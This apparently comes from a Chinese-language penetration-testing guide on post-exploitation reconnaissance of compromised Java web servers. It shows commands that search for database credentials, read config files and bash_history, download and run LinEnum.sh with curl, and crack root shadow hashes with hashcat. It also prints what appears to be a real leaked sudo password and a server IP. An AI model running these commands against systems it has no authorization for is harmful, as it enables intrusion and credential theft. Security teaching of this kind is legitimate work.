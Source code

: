 我们通过web层面拿到的机器，一般都是web服务器，即存在各种jar包，所以服务器里会存放大量配置文件
```bash
在当前目录下搜索存在字符为'mysql'的文件
grep -rn "mysql" .
=======
查看对应系统的敏感配置文件
cat static/scripts/tinymce/js/tinymce/plugins/jbimages/ci/application/config/database.php
=======
curl ifconfig.me
120.25.13.49
```
通过进程任务可以查找到部署jar包的目录和相对应依赖，大部分运维和开发都习惯于在根目录下新建data目录或者是非系统文件夹下的目录存在web的依赖jar包，我们就可以从这点做突破口。查看一下端口开放情况和对应的目录位置，有一些shell的基础就可以搜集到这些信息。
```bash
ps -ef|grep java

netstat -ANTUP
```


> **有的时候拿到的机器或多或少存在一些特殊情况，比如docker机器、单纯的一个数据库机器，那么就尽力而为去做一些搜集工作，特别是docker机器，除了跑的服务，机器里面太干净了，基本没有什么可以利用的地方。**

#### # bash_history

命令执行历史文件一般建议必看，里面会存着一些意想不到的内容，下面截取一小部分我在内网实战中发现的惊喜：

```bash
cd nexus-3.12.0-01
ll
cd bin/
./nexus start
pactera@575
cd domain/
ll
cd nexus3/
```
注意`./nexus start`和`cd domain/`两条命令中间的那个“命令”，对，没错那个是sudoer用户的密码，su切换直接就拥有root权限。我们分析一下为什么出现这样的现象：个人认为是在运行nexus程序是需要密码来提升权限，然后输入者在等待过程中没有发现输入密码的shell还没有回显出来就输入了密码，从而导致密码被系统当作执行命令记录进了history文件。

---
**发现这个后，我第一时间去看了自己服务器和自己的mac本上的历史文件，搜索机器密码关键词，同时也存在这样的现象明文密码存在了里面**


**醍醐灌顶**
#### # 一些自动化搜集脚本

- LinEnum.sh
```bash
curl -o /tmp/linenum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
chmod +X /tmp/linenum.sh && bash /tmp/linenum.sh
```

#### # Passwd&Shadow（不推荐）

一般来说通过`shiro`和`struts2`拿到的shell基本都是root，很多人都会直接去读取passwd文件，其实并不可取。下面展示一下2核4G服务器跑hash文件的过程。一般是跑不出来的，哈希不可逆，除非存在彩虹表，一般都跑不出来。 
```bash
hashcat -m 1800 -a 0 -o found.txt linux-root.txt /usr/share/john/password.lst --force
hashcat (v4.0.1) starting...

OpenCL Platform #1: The pocl project
====================================
* Device #1: pthread-Intel(R) Xeon(R) Platinum 8163 CPU @ 2.50GHz, 256/738 MB allocatable, 1MCU

Hashes: 2 digests; 2 unique digests, 2 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

```